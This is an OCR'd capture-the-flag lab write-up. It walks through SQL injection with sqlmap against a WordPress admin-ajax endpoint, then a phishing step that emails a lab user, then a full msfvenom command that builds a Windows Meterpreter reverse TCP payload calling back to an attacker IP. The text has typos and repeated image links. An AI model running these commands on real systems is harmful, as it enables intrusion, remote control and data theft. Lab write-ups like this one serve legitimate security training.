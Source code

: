 ![flag 5](https://github.com/Mays-M/Images-/blob/main/flag5.png)

3. Brup catches the POST request and waits.
4. Copy past the action request to the sqlmap 

![flag 5](https://github.com/Mays-M/Images-/blob/main/flag5.png)

Run sqlmap designed for automated detection and exploitation of SQL
injection vulnerabilities in web applications, an explanation of the
command:

- sqlmap: This is the name of the tool being used.
- -u challenger.vle.fi/wp-admin/admin-ajax.php: This
option specifies the target URL where the SQL injection
vulnerability is suspected. In this case, it's pointing to the
"admin-ajax.php" file in the "wp-admin" directory of the
"challenger.vle.fi" website.
- --data "action=rk_action&fdata=rk_email%3Dtest%2540yahoo.com%26rk_subject%3Dtest%26rk_comment%3D%26submit%3D&msg=": This option is used to provide the data that will be sent to the web application as part of the request. It seems to be simulating a form submission with various parameters. The %3D and %2540 are URLencoded representations of '=' and '@', respectively.
- --tables: This option instructs sqlmap to enumerate the database tables once the SQL injection vulnerability is
-  identified. It attempts to gather information about the database structure.

![flag 5](https://github.com/Mays-M/Images-/blob/main/flag5.png)

6. Also, the command shows there is a database called ‘challenger’ and contains a table called to inta_ch06 which is a list of emails



7. Navigate mail.lookout.vle.fi and create account(email used : jeff01ab0168@lookout.vle.fi) then send email to jeff01+studentid@challenger.vle.fi


8. Seems we need to send an executable file. So
9. create malicious file with msfvenom (combo of msfplayload and msfencod)
- environments :kali sent executable payload to
window
- Demo: Generate a 64-bit Windows Meterpreter reverse TCP payload and save it as payload.exe in the
current working directory. The Kali’s IP address (LHOST) and port (LPORT) with the appropriate
values for your scenario.

msfvenom -p windows/x64/meterpreter/reverse_tcp --
platform windows LHOST=198.18.103.134 LPORT=5433 -f
exe -o payload.exe





10. The file Payload.exe is created on the kali’s machine to be delivered by email to jeff’s machine ass attachment and when the user will execute the file and because defender is disable to detect when downloading.


